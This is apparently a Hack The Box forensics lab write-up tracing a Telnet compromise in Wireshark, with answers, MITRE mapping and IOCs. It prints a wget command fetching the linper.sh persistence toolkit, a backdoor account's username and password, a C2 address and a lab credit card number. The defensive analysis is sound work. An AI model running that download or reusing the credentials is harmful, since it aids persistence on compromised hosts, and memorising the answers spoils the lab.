# 🔍 Telly — Linux Telnet Exploitation & Data Exfiltration

## Investigation Summary
| Field | Details |
|---|---|
| **Platform** | Hack The Box |
| **Category** | SOC Investigation / Network Forensics |
| **Tools Used** | Wireshark |
| **MITRE ATT&CK** | T1190, T1136.001, T1059.004, T1105, T1048, T1070.004 |
| **Difficulty** | Very Easy |

---

## Scenario
As a Junior DFIR Analyst at an MSSP, your supervisor has tasked you with
analyzing network telemetry from a compromised backup server. A DLP solution
flagged a possible data exfiltration attempt from this server. According to
the IT team, this server was not very busy and was sometimes used to store
backups.

---

## Investigation Walkthrough

### Checking the Protocol Hierarchy

Let's first check the protocol hierarchy to get a feel for what we are
dealing with.



From the get go, we can see traffic using Telnet. That is a sign of
misconfiguration since Telnet is unsecure and should not be in use.

A quick filter shows us this.



So now we are focusing our sights on these logs. It looks like
`192.168.72.136` is sending commands over to `192.168.72.131`. A quick view
of the logs shows these.



This is unusual. Why would someone with a root user add a random account. So
we know right now that `.131` is being infiltrated. Let's follow the TCP
stream to get a view of what happened.

We see that passwords are being read.



And a lot of recon of directories.



Following the conversation more, we see that the attacker downloaded a
certain file from GitHub.



Researching what `linper.sh` is, it turns out to be a Linux persistence
toolkit. It is a publicly available offensive security script from a GitHub
repo called montysecurity. It automates setting up multiple persistence
mechanisms on a compromised Linux machine, things like cron jobs, SSH
backdoors, modifying startup scripts, and more.

So now we know that the attacker established a persistence mechanism aside
from adding a local account called `cleanupsvc`. We also see this where the
attacker ran `linper.sh`.



We also see that the attacker found a database called
`credit-cards-25-blackfriday.db` which it then shredded after exfiltrating.





The attacker then logged out after.

---

### Answering the Questions

**Q1. What CVE is associated with the vulnerability exploited in the Telnet protocol?**

We know the attacker got root access on `192.168.72.131`. We also see the
command the attacker used to connect via Telnet.



According to this article, the CVE associated is confirmed.



**Answer: CVE-2026-24061**

---

**Q2. When was the Telnet vulnerability successfully exploited?**

We also know when the attacker successfully did this exploit.



**Answer: 2026-01-27 10:39:28**

---

**Q3. What is the hostname of the targeted server?**

We know the hostname from the earlier investigation.

**Answer: backup-secondary**

---

**Q4. What username and password were set for the backdoor account?**

We also know this from the earlier investigation. The attacker created
`cleanupsvc` with a password.

**Answer: cleanupsvc:YouKnowWhoiam69**

---

**Q5. What was the full command the attacker used to download the persistence script?**

We know from the earlier investigation that the attacker downloaded
`linper.sh` from GitHub. Since this is a simple download I leaned towards
wget.

**Answer: wget hxxps://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh**

---

**Q6. What is the C2 IP address used for remote access persistence?**

When we check the traffic around when the attacker ran linper, we see these
IP addresses. That is where the attacker is sending the output of the
commands.



**Answer: 91.99.25.54**

---

**Q7. At what time was the sensitive database file exfiltrated?**

We know this from the previous investigation.



**Answer: 2026-01-27 10:49:54**

---

**Q8. Find the credit card number for a customer named Quinn Harris.**

To get this, we need to export objects from Wireshark and export the database
file.





**Answer: 5312269047781209**

---

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|---|---|---|
| Exploit Public-Facing Application | T1190 | Telnet CVE-2026-24061 exploited for root access |
| Create Account: Local Account | T1136.001 | cleanupsvc backdoor account created |
| Command and Scripting: Unix Shell | T1059.004 | Shell commands used for recon and persistence |
| Ingress Tool Transfer | T1105 | linper.sh downloaded from GitHub |
| Exfiltration Over Alternative Protocol | T1048 | credit-cards-25-blackfriday.db exfiltrated |
| Indicator Removal: File Deletion | T1070.004 | Database shredded after exfiltration |

---

## IOCs

| Type | Value |
|---|---|
| Attacker IP | `192.168.72.136` |
| Victim IP | `192.168.72.131` |
| Hostname | `backup-secondary` |
| CVE | `CVE-2026-24061` |
| Backdoor Account | `cleanupsvc` |
| Persistence Script | `linper.sh` |
| C2 IP | `91.99.25.54` |
| Exfiltrated File | `credit-cards-25-blackfriday.db` |

---

## Key Takeaways

- **Telnet is a red flag.** Seeing Telnet traffic in a protocol hierarchy
  should immediately raise suspicion. It transmits everything in plaintext
  including credentials, which makes it trivial to follow the TCP stream and
  read exactly what the attacker did. Telnet should never be in use in a
  production environment.

- **Protocol hierarchy as a starting point.** Checking the protocol hierarchy
  first before diving into individual packets is a solid habit. It gives you
  a quick snapshot of what protocols are in use and helps you prioritize where
  to look, which saves a lot of time.

- **Publicly available persistence toolkits.** linper.sh is a publicly
  available script that automates persistence on Linux. Attackers do not
  always write custom tools, they grab what is already out there. Knowing
  common offensive tools like this helps you recognize them faster in the
  field.

- **Shredding after exfiltration.** The attacker shredded the database file
  after exfiltrating it. This is a cleanup step designed to remove evidence
  and make recovery harder. Seeing file deletion commands right after a
  suspicious download or transfer is a strong indicator of exfiltration.

- **Structured filtering over manual browsing.** Having a process for
  filtering in Wireshark, starting broad with protocol hierarchy then
  narrowing down by IP and TCP stream, makes investigations faster and more
  reliable than scrolling through raw packets hoping something stands out.

---

## Notes and Thoughts

Good lab. Now that I have a process for investigating packets through
Wireshark, I am having a solid understanding of how the attack went out as
well as the timeline. There is less manual finding and more structured
filtering on my end compared to my other labs.